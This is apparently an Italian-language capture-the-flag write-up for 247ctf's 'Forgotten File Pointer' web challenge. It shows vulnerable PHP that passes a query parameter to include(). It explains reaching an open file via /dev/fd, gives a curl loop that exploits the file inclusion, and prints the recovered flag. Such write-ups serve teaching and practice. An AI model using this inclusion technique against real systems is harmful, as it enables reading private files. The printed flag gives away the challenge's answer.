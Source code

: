 ```yaml
---
title: "247ctf Forgotten File Pointer"
date: 2025-10-22T21:19:07+02:00
draft: false
---
```


# Forgotten File Pointer - WEB

- **Platform:** 247ctf
- **Difficoltà:** Moderate (Relativo alla piattaforma)
- **Link:** https://247ctf.com/  

## Descrizione

```text
We have opened the flag, but forgot to read and print it. Can you access it anyway?
```

In questa challenge ci viene fornito un endpoint che mostra il codice della pagina stessa e ci viene chiesto di recuperare la flag che si trova in un file. 

```php

<?php
  $fp = fopen("/tmp/flag.txt", "r");
  if($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['include']) && strlen($_GET['include']) <= 10) {
    include($_GET['include']);
  }
  fclose($fp);
  echo highlight_file(__FILE__, true);
?>

```

Il codice è abbastanza diretto e la vulnerabilità è evidente: viene passato alla funzione `include()` direttamente il query param 'include' senza alcun tipo di sanificazione, dobbiamo solo trovare il modo di sfruttarlo!

## Analisi

Il file flag.txt viene aperto da PHP ma non viene mostrato direttamente. Tuttavia l'if viene valutato prima della chiamata a `fclose($fp);`, quindi quando viene eseguita `include($_GET['include']);` il file è ancora aperto.

La funzione `include()` ha la proprietà che, se le passi un semplice file di testo, ne stampa il contenuto. Basta quindi passare il nome del file che vogliamo leggere ovvero `/tmp/flag.txt` e il gioco è fatto.

Il problema è che l'if controlla la lunghezza del parametro: `include($_GET['include']);` viene eseguito solo se la stringa non supera i 10 caratteri. 

## Soluzione

Per poter accedere ai file aperti dal processo possiamo rifarci a `/dev/fd`. 

`/dev/fd` è una directory virtuale in Linux che contiene i file descriptor del processo in esecuzione.

In pratica, è un modo per accedere agli stream aperti (stdin, stdout, stderr, socket, file, pipe, ecc.) come se fossero normali file nel filesystem. Ogni "file" all'interno della directory rappresenta un file descriptor:

```text
/dev/fd/0 -> stdin  
/dev/fd/1 -> stdout  
/dev/fd/2 -> stderr  
/dev/fd/3, /dev/fd/4, … -> altri file aperti
```

Nel nostro caso dal momento che `/dev/fd/` è di 9 caratteri possiamo accedere direttamente ai file `/dev/fd/X` dove X è compreso tra 0 a 9, quindi i file descriptor di 1 cifra. A questo punto possiamo provarli tutti facilmente:

```bash
for i in {0..10}; do curl https://97f0352ee0639764.247ctf.com?include=/dev/fd/$i -s | grep 247CTF{ && echo $i -s ; done
```

Attraverso un ciclo for andiamo ad eseguire curl e ricerchiamo la stringa `247CTF{`. Dopo qualche secondo, abbiamo la flag!

```bash
maimba@Saturn:~/$ for i in {0..10}; do curl https://97f0352ee0639764.247ctf.com?include=/dev/fd/$i -s | grep 247CTF{ && echo $i -s ; done
247CTF{4be4e08685e2ed433dde9171e887761e}
10 -s
```
